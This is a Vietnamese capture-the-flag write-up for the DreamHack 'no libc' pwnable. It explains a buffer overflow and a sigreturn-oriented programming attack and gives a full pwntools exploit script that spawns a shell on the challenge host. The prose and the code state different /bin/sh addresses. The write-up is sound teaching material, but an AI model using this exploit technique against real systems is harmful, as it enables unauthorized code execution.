







# no-libc---Write-up-----DreamHack
Hướng dẫn cách giải bài no libc cho anh em mới chơi pwnable.

**Author:** Nguyễn Cao Nhân aka Nhân Sigma

**Category:** Binary Exploitation

**Date:** 2/12/2025

## 1. Mục tiêu cần làm
Khi chúng ta dịch ngược file và đọc file, chúng ta sẽ thấy 2 hàm chính là `vuln()`, `syscall3()`. Đây chính là 2 hàm mà chúng ta sẽ cook nó nhiều nhất.

Khi file gọi hàm syscall3( Số bất kì ), tức là nó đang thực hiện 1 lệnh syscall với số đó, ví dụ syscall3(0LL) nghĩa là đang thực hiện sys_read(0, buf, size). Syscall3 nó chứa lệnh thô của syscall và đây sẽ là mục tiêu thai khác chính.

## 2. Cách thực hiện
Trước tiên chúng ta cần xem bài này có các lớp bảo mật gì đã.



Ta thấy RELRO là no. Điều này xác nhận binary được liên kết tĩnh, không phụ thuộc thư viện ngoài (libc). Do đó, ta không thể sử dụng kỹ thuật ret2libc mà sẽ hướng tới sử dụng ROP gadgets có sẵn hoặc kỹ thuật SROP.

Bài này chắc chắn là lỗi Buffer Overflow vì lệnh syscall3(0) nó không giới hạn số lượng nhập vào từ đó có thể ghi đè lên các saved RBP hoặc saved RIP.

Giờ thì để chiếm quyền điều khiển chúng ta cần thực hiện lệnh `execve()`, vì sao lại là lệnh này ? Vì chúng ta có thể gọi syscall tùy ý và syscall(59) sẽ là lệnh `execve()` nên chúng ta sẽ thực hiện nó. Giờ thì chúng ta hãy tìm `/bin/sh` để có thể thực thi nó.

Các bạn hãy gõ lệnh sau `ROPgadget --binary nolibc --string "/bin/sh"` và nó sẽ ra như vậy.



Vậy địa chỉ của `/bin/sh` là `0x2000`

Vậy là chúng ta đã có địa chỉ của `/bin/sh` rồi giờ hãy tạo ra 1 khung lệnh để thực thi lệnh `execve()` thôi.

```Python
# Tạo Sigreturn Frame để gọi execve("/bin/sh", 0, 0)
frame = SigreturnFrame()
frame.rax = 59            # Syscall number cho execve
frame.rdi = bin_sh_addr   # Tham số 1: Địa chỉ chuỗi "/bin/sh"
frame.rsi = 0             # Tham số 2: NULL
frame.rdx = 0             # Tham số 3: NULL
frame.rip = syscall_gadget # Sau khi khôi phục, nhảy vào syscall để thực thi
```

Thế là chúng ta đã có 1 file `save game` rồi, giờ làm sao để load được nó đây ? Rất đơn giản, đó là chúng ta sẽ thực thi syscall(15). Nói nôn na thì khi bạn gọi lệnh syscall(15) nó sẽ tạm dừng chương trình 1 tí, sau đó load hết đống `save game` mà bạn vừa gõ lên CPU, thay thế toàn bộ đống `save game` cũ của CPU. Và CPU không biết gì mà thực hiện `save game` mà bạn vừa gõ. Từ đó thực thi thành công lệnh `execve("/bin/sh", 0, 0)`. Nếu bạn hỏi đống frame cũ trước khi bị ghi đè ở đâu thì xin chia buồn nó vào **Backrooms** rồi 🐧.

Trước khi vào code chính payload thì để mình nói sơ về cách hoạt động của code sắp tới.

Đầu tiên cần tìm xem offset từ buf đến saved RIP là bao nhiêu byte. Bạn hãy tạo 1 chuỗi dài tầm cỡ 100 hay 200 byte gì đó, copy nó, mở gdb nolibc lên, run với đống byte đó. Sau đó hãy nhìn vào con trỏ RSP đang ở đâu. Vì saved RIP đã bị đè nên nó không return về được nên RSP sẽ bị kẹt ở đó luôn.



Sau đó các bạn hãy sử dụng pwntools gõ lệnh như sau. 

```Python
from pwn import *
print(cyclic_find('4 byte đầu'))
```

Nó sẽ ra 72, đây chính là offset để ghi đè từ buf đến saved RIP



Giờ hãy nói về cách hoạt động



Nếu bạn chạy file bình thường thì nó sẽ như vậy. Đầu tiên là chạy hàm `vuln()`, sau đó là `syscall(0)` hay còn là `read()` và cuối cùng là `return`. Nhưng sẽ ra sao nếu chúng ta ghi đè `saved RIP` bằng hàm vuln và sau đó chèn thêm `syscall_gadget` và sau đó là `Fake frame` mà ta đã gõ. Nhưng lệnh `syscall_gadget` để làm gì vậy Nhân Simga 🗣️ 🔥🔥🔥.

`Syscall_gadget` nó giống như người đưa thư vậy. Nếu chúng ta chỉ bỏ `Fake frame` lên mà không gọi syscall thì không khác gì chúng ta vứt thư vô hộp thư không có người giao. Nó sẽ không được giao đến cho `Admin` để được thực thi nó.



Khi chúng ta chạy đến `vuln()` nằm ở hàng thứ 3 thì trước khi nó thực thi lệnh `syscall_gadget`, nó sẽ thực thi lệnh `read` lần nữa. Đây là 1 lợi thế vì chúng ta có thể lợi dụng nó để nhập vào con số 15 để thực thi `syscall(15)` của chúng ta. Và một khi RSP trỏ đến `syscall_gadget`, không còn gì ngăn cản chúng ta bỏ `Fake frame` lên trên CPU và bắt em CPU múp rụp phục vụ chúng ta.

```Python
# Payload 1: Setup Stack
# Chiến thuật:
# - Ghi đè Ret Addr bằng vuln_addr -> Chương trình chạy lại vuln()
# - Đặt syscall_gadget ngay sau đó -> Khi vuln() lần 2 chạy xong, nó sẽ ret vào syscall_gadget
# - Đặt Frame ngay sau đó -> Để syscall_gadget (lệnh syscall) lấy làm context
payload = b'A' * OFFSET
payload += p64(vuln_addr)       # Lần ret 1: Quay lại vuln
payload += p64(syscall_gadget)  # Lần ret 2 (của vuln chạy lại): Nhảy vào syscall
payload += bytes(frame)         # Dữ liệu cho syscall load
```

Làm sao để tìm `syscall_gadget` ? Bạn chỉ cần gõ lệnh `ROPgadget --binary nolibc | grep 'syscall'` rồi tìm địa chỉ nào chỉ có mỗi lệnh syscall không là được.



Địa chỉ 0x401028 là địa chỉ ta cần tìm. Vậy là xong bài này khá là dễ nên không cần nói gì quá nhiều nữa. Hãy cho mình 1 star để có động lực viết tiếp nha 🐧.

```Python
from pwn import *

#p = process('./nolibc')
p = remote('host8.dreamhack.games', 22588)

# 1. Cấu hình cơ bản
context.binary = binary = ELF('./nolibc')
context.arch = 'amd64'

# 2. Các địa chỉ quan trọng
# Địa chỉ lệnh syscall (lấy từ output ROPgadget của bạn)
syscall_gadget = 0x401028 

# Địa chỉ hàm vuln (để quay lại trigger SROP)
vuln_addr = binary.symbols['vuln'] 

# Địa chỉ chuỗi "/bin/sh" bạn vừa tìm thấy
bin_sh_addr = 0x402000 

OFFSET = 72

# 3. Tạo Sigreturn Frame để gọi execve("/bin/sh", 0, 0)
frame = SigreturnFrame()
frame.rax = 59            # Syscall number cho execve
frame.rdi = bin_sh_addr   # Tham số 1: Địa chỉ chuỗi "/bin/sh"
frame.rsi = 0             # Tham số 2: NULL
frame.rdx = 0             # Tham số 3: NULL
frame.rip = syscall_gadget # Sau khi khôi phục, nhảy vào syscall để thực thi

# 4. Payload 1: Setup Stack
# Chiến thuật:
# - Ghi đè Ret Addr bằng vuln_addr -> Chương trình chạy lại vuln()
# - Đặt syscall_gadget ngay sau đó -> Khi vuln() lần 2 chạy xong, nó sẽ ret vào syscall_gadget
# - Đặt Frame ngay sau đó -> Để syscall_gadget (lệnh syscall) lấy làm context
payload = b'A' * OFFSET
payload += p64(vuln_addr)       # Lần ret 1: Quay lại vuln
payload += p64(syscall_gadget)  # Lần ret 2 (của vuln chạy lại): Nhảy vào syscall
payload += bytes(frame)         # Dữ liệu cho syscall load

p.sendline(payload)

# 5. Payload 2: Trigger SROP
# Lúc này chương trình đang chạy lại vuln() và đợi input
# Ta gửi đúng 15 bytes để hàm read trả về 15 -> RAX = 15 (sigreturn)
# Khi hàm vuln() kết thúc, nó gặp lệnh 'ret', stack lúc này đang trỏ tới 'syscall_gadget' ta đặt ở trên
p.recv() # Nhận "Input: " lần 2
p.send(b'B' * 15) # Gửi đúng 15 bytes (không được thừa, không được thiếu)

# 6. Enjoy Shell
p.interactive()
```
